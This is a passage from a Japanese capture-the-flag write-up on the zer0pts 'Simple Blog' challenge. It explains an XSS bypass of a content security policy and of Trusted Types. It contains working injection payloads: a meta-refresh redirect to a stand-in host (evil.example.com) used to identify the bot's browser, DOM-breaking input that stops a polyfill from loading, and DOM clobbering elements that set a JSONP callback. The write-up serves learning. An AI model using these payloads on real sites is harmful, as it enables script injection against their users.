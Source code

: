 問題文からbotがFirefoxであることが示唆されていますが、明示はされていないのでリダイレクトによってuser-agentをチェックします：
```javascript
encodeURIComponent('"> <meta http-equiv="refresh" content="0;URL=https://evil.example.com"> <"')
```
の値をreportすると
```
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
```
が返ってきた[^3]ので、[WhatIsMyBrowser](https://developers.whatismybrowser.com/)で調べると`Firefox 88 on Linux`でFirefoxであることが確認できました。

[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。

ところでFirefoxと言えば、Dangling Markup Injectionの防御機構がない[^4]ので、その辺りでうまく攻撃できないか検討しました。

[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。

[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。

```javascript
location = "http://web.ctf.zer0pts.com:8003/?theme=" + encodeURIComponent('> <script "')
```
を手元で実行すると、DOMの構造が崩れて下の画像のように`/js/trustedtypes.build.js`を読み込まなくなります。
![](/images/2021/20210309-zer0ptsctf-simpleblog-01.png)

Trusted Typesのpolyfillが無効になりました。嬉しい。

今度は、
```
Uncaught ReferenceError: trustedTypes is not defined
    init http://web.ctf.zer0pts.com:8003/?theme=> <script ":83
    <anonymous> http://web.ctf.zer0pts.com:8003/?theme=> <script ":92
```
と怒られます。これは、`/js/trustedtypes.build.js`を読み込まなかったことによって`trustedTypes`変数がundefinedになったことが原因です。グローバル変数なのでDOM Clobberingによって適当に定義すればOKです。
```javascript
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }
```
ともあるので、`trustedTypes.defaultPolicy`の値をtruthyにする必要があります。
```html
<form id=trustedTypes><input name=defaultPolicy></form>
```
このようなDOMがあれば大丈夫でしょう。さらに
```javascript
      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
```
で好きなcallbackの値を設置したい場合は
```html
<a id=callback href='x:console.log'></a>
```
を放り込めばOKです。ここで、`x:`のようなスキームを指定しないと`window.callback`の値が`http://web.ctf.zer0pts.com:8003/console.log`になってしまうことに注意する必要があります。

というわけでこれらを組み合わせて
```javascript
location = "http://web.ctf.zer0pts.com:8003/?theme=" + encodeURIComponent('> <form id=trustedTypes><input name=defaultPolicy></form> <a id=callback href=\'x:console.log\'></a> <script "')
```
を手元で実行すると
![](/images/2021/20210309-zer0ptsctf-simpleblog-02.png)
のように`Array [ {…}, {…} ]`が出力されます。


[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。
[^7]: https://simple.wikipedia.org/wiki/Leet